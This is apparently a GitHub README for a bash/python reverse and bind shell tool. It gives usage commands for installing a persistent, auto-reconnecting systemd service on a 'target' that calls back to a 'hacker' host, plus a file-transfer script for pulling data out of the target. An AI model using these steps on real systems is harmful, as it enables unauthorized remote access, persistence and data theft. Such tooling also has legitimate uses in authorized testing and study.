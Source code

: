 # Rvc Reverse and Bind shell

A script for creating a reverse and bind shell tunnel for linux servers 
Not actual rsh that uses RCE for injecting the vulnerability.

Reverse Shell:
![demo image0](demo-rsh.jpg)

Bind Shell:
![demo image1](demo-bsh.jpg)

## Features

1) Complete control of remote shell including ctrl+.. signals.
2) Supports interaction with text editors like nano, vim, emacs on remote shell as well !!
3) Auto tab completion supported.
4) Ansi color output and characters supported.
5) Dynamic communiation with the launched command.
6) Install and uninstall as a systemd service on target with autostart on boot.
7) Target RSH client always tries every 5 seconds to reconnect to the hacker server.
8) Less bandwidth consumption and never hangs up.

## Getting Started

These instructions will get you a copy of the project up and running on your local machine for development and testing purposes. See deployment for notes on how to deploy the project on a live system.

### Prerequisites

This script was tested on Ubuntu 18.04 LTS and Kali Linux 2019.3
However this script needs some basic bash primitives in a normal linux distribution.

Server side:: Target side
1) bash
2) python (2 or 3)
3) stty (for setting terminal window)
4) systemctl service support (for installation and autostart)

Client side:: Hacker side 
1) bash
2) python (2 or 3)
3) stty (for getting hacker terminal sizes)
4) awk interpreter and hostname utility

## Deployment

The following steps will guide you setting up a Reverse Shell between two pcs in same network

to set the reverse shell to connect to the hacker ip address.

1) Copy this file on Target pc and either install (run as root) or expose its terminal to hacker pc. Run
```
./rvc-rsh install (hacker hostname) (port no)
or
./rvc-rsh expose  (hacker hostname) (port no)

for bsh

./rvc-bsh install (target hostname) (port no)
or
./rvc-bsh expose  (target hostname) (port no)


uninstall on target:
./rvc-rsh uninstall
or 
./rvc-bsh uninstall
```
Give the hostname and port no. to open a connection.
Just remember for now the script supports only one rsh client install per target pc if you want to.

2) on hacker terminal to open a client bearing (hacker hostname) and (port no) run
```
./rvc-rsh open (hacker hostname) (port no)
for bsh
./rvc-bsh open (target hostname) (port no)
```
This will establish a TCP connection between the hacker and the target shells
And MAGIC !! you will entirely get the remote console with all above mentioned features !!

### Complimentary File transfer utility

File transfer script (rvc-ft) however is not the actual part of this repo but 
after some experiments using rsh and bsh we urgently felt a need for an anonymous file transfer
to get important data from target. For that we wrote our own naive FTP over TCP in python
to enable raw file transfer. We have written this FTP in both reverse and bind methodologies.
This script is to be copied with the other scripts on target pc to enable its features obviously.

A) Reverse transfer

![demo image2](demo-rft.jpg)

1) first start rvc-ft in reciever mode 
```
./rvc-ft recv (reciever hostname) (port no.) (path/to/save/file/as)
```
2) then transmit the remote file
```
./rvc-ft send (reciever hostname) (port no.) (path/to/file)
```
3) have patience and DONE!! because no progress bars, etc.


B) Bind transfer

![demo image3](demo-bft.jpg)

1) first start rvc-ft in sender mode 
```
./rvc-bft send (sender hostname) (port no.) (path/to/file)
```
2) then transmit the remote file
```
./rvc-bft recv (sender hostname) (port no.) (path/to/save/file/as)
```
3) have patience and DONE!! because no progress bars, etc.

## Author

* **Rajas Chavadekar** 

## License

This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for details

